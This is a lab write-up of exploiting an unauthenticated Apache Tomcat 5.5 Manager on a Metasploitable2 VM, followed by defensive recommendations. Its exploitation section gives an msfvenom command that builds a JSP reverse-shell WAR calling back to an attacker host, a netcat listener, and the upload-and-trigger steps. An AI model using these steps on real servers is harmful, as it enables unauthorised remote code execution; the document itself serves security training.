 # Apache Tomcat Manager Exploitation on Metasploitable2

## Overview

**Focus:** Apache Tomcat Manager Administrative Interface Exploitation  
**Target:** Metasploitable2 (192.168.56.101)  
**Objective:** Demonstrate WAR file deployment vulnerability leading to remote code execution  
**Status:** ✅ Successfully Exploited - Full RCE Achieved

## Executive Summary

A critical vulnerability assessment was conducted against the Apache Tomcat Manager service running on Metasploitable2. The assessment revealed that the Tomcat Manager interface was accessible without proper authentication controls, allowing for arbitrary WAR file deployment. Through manual payload creation using msfvenom, a malicious JSP reverse shell was successfully deployed and executed, resulting in remote command execution as the tomcat55 user. This exploitation demonstrates the severe security implications of exposed administrative interfaces in web application servers.

## Environment Configuration

| Component | Details |
|-----------|---------|
| **Target System** | Metasploitable2 VM |
| **Target IP** | 192.168.56.101 |
| **Attacker System** | Parrot OS VM |
| **Attacker IP** | 192.168.56.102 |
| **Target Service** | Apache Tomcat 5.5 |
| **Target Port** | 8180/TCP |
| **Payload Type** | JSP Reverse Shell (WAR) |

## Vulnerability Assessment

### Service Discovery and Reconnaissance

Initial reconnaissance confirmed the presence of Apache Tomcat 5.5 running on the non-standard port 8180:

```bash
nmap -sV -sC 192.168.56.101 -p 8180
```

![Nmap Scan Results](nmap_tomcat_recon.png)

The scan revealed Apache Tomcat/Coyote JSP engine 1.1, indicating an end-of-life version with multiple known vulnerabilities.

### Web Application Analysis

Navigation to the Tomcat default page revealed exposed administrative interfaces through the sidebar navigation menu:

![Tomcat Default Page](tomcat_apache.png)

The presence of direct links to "Tomcat Manager" and "Tomcat Administration" applications indicated potential security misconfiguration.

### Manager Application Access

Direct access to the Manager application interface was successful without authentication challenges:

![Tomcat Manager Interface](tomcat_app_manager.png)

The Manager interface displayed full administrative capabilities including application deployment, which represents a critical security vulnerability.

## Technical Exploitation Process

### Payload Generation

A custom JSP reverse shell payload was created using msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=4444 -f war -o shell.war
```

![Payload Generation](payload_gen_msfvenom.png)

The payload was specifically crafted for compatibility with the older Tomcat JSP engine, packaged in WAR format for deployment.

### Deployment and Execution

A netcat listener was established on the attacking system:

```bash
nc -nvlp 4444
```

The malicious WAR file was successfully deployed through the Manager interface's file upload functionality:

![Deployed Shell Application](shell_deployed.png)

### Remote Code Execution Achievement

Triggering the deployed application by accessing `/shell/` resulted in successful reverse shell connection:

![Reverse Shell Obtained](reverse_shell_obtained.png)

![Connection Received](connection_received.png)

Post-exploitation reconnaissance confirmed system access as the tomcat55 user with limited privileges (uid=110), demonstrating proper service isolation despite the vulnerability.

## Skills Developed

- Manual payload generation and customization using msfvenom
- Web application security assessment methodologies
- Administrative interface vulnerability identification
- WAR file deployment attack vectors
- Reverse shell establishment and post-exploitation techniques
- Service enumeration and version identification

## Exploitation Results

**CVSS Base Score:** 9.8 (Critical)  
**Attack Vector:** Network  
**Attack Complexity:** Low  
**Privileges Required:** None  
**User Interaction:** None  
**Impact:** Complete system compromise potential

### Immediate Impact
- Remote code execution capabilities on the target system
- Ability to deploy, modify, and remove web applications
- Access to application data and configurations
- Platform for lateral movement within the network

### Business Impact
- Complete compromise of hosted web applications
- Potential data exfiltration and integrity loss
- Service disruption capabilities
- Compliance violations and regulatory exposure

## Defensive Recommendations

### Immediate Actions Required
1. **Access Control Implementation**
   - Configure strong, unique passwords for all Tomcat administrative accounts
   - Remove or disable default/demo accounts immediately
   - Implement IP-based access restrictions using RemoteAddrValve

2. **Interface Security**
   - Disable Manager application if not required for operations
   - Move administrative interfaces to non-standard ports
   - Implement reverse proxy with authentication layer

### Long-term Security Hardening
1. **System Architecture**
   - Deploy Tomcat behind a Web Application Firewall (WAF)
   - Implement network segmentation for administrative access
   - Configure SSL/TLS encryption for all administrative communications

2. **Monitoring and Detection**
   - Enable file integrity monitoring on webapps directory
   - Implement network monitoring for unusual outbound connections
   - Configure logging for all administrative actions

3. **Patch Management**
   - Upgrade to current supported Tomcat version (10.x series)
   - Establish regular security update procedures
   - Conduct quarterly vulnerability assessments

### Defense in Depth Strategy
- Multi-factor authentication for administrative access
- Role-based access controls with principle of least privilege
- Regular security audits and penetration testing
- Incident response procedures for compromise scenarios

## Educational Disclaimer

This penetration test was conducted in a controlled laboratory environment using Metasploitable2, which is specifically designed for security training purposes. The techniques demonstrated should only be used for legitimate security testing, education, and authorized penetration testing engagements. Unauthorized access to computer systems is illegal and unethical.

---

**Technical Note:** This assessment demonstrates the critical importance of proper administrative interface security and the severe consequences of misconfigurations in production web application environments.
